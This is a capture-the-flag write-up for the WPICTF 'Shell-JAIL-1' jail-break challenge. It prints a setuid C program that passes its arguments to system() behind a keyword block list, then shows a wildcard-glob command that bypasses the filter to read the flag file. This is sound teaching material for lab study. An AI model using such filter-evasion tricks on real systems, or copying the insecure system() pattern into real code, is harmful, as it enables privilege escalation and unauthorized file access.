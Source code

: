 Shell-JAIL-1
=================
**Category**: Pwn  **Points**: 150

Challenge Description
------

```
Download the login private key, then run:

ssh -p 31337 -i login shjail@shelljail1.wpictf.xyz

redundant servers on 31338 and 31339

made by Ben Chaney

```

Solutions
----------

This is a simple jail break challenge. SSHed into the server and we see the flag.txt in sitting right there.

```
28369edadf5f:/home/pc_owner$ ls -la
total 28
drwxr-xr-x    1 pc_owner pc_owner      4096 Apr 13 08:03 .
drwxr-xr-x    1 root     root          4096 Apr 13 08:03 ..
-r-sr-sr-x    1 pc_owner pc_owner     10880 Apr 13 08:03 access
-r--r--r--    1 pc_owner pc_owner      1005 Apr 13 04:50 access.c
-r--r-----    1 pc_owner pc_owner        23 Apr 13 04:50 flag.txt

```

We can cat the contents of access.c

```
28369edadf5f:/home/pc_owner$ cat access.c
#include <sys/types.h>
#include <unistd.h>
#include <stdio.h>
#include <stdlib.h>
#include <strings.h>
#include <string.h>

char *gen_cmd(int argc, const char **argv){
	size_t total_size = 1;
	for(int it = 1; it < argc; it++){
		total_size+= strlen(argv[it]);
	}
	char *ret = malloc(total_size);
	total_size = 0;
	for(int it = 1; it < argc; it++){
		size_t len = strlen(argv[it]);
		memcpy(ret+total_size, argv[it], len); 
		total_size+= len;
		ret[total_size] = ' ';
		total_size++;
	}
	ret[total_size] = '\0';
	return ret;
}

int filter(const char *cmd){
	int valid = 1;
	valid &= strstr(cmd, "*") == NULL;
	valid &= strstr(cmd, "sh") == NULL;
	valid &= strstr(cmd, "/") == NULL;
	valid &= strstr(cmd, "home") == NULL;
	valid &= strstr(cmd, "pc_owner") == NULL;
	valid &= strstr(cmd, "flag") == NULL;
	valid &= strstr(cmd, "txt") == NULL;
	return valid;
}


int main(int argc, const char **argv){
	setreuid(UID, UID);
	char *cmd = gen_cmd(argc, argv);
	if (!filter(cmd)){
		exit(-1);
	}
	system(cmd);
}

```
We can see flag, txt, /...etc are all filtered. However we can use the WAF bypass technique as found in
https://medium.com/secjuice/waf-evasion-techniques-718026d693d8

My solution is simply
```
28369edadf5f:/home/pc_owner$ ./access "cat f???.???"
wpi{MaNY_WayS_T0_r3Ad}
28369edadf5f:/home/pc_owner$ 
```
`flag:wpi{MaNY_WayS_T0_r3Ad}`

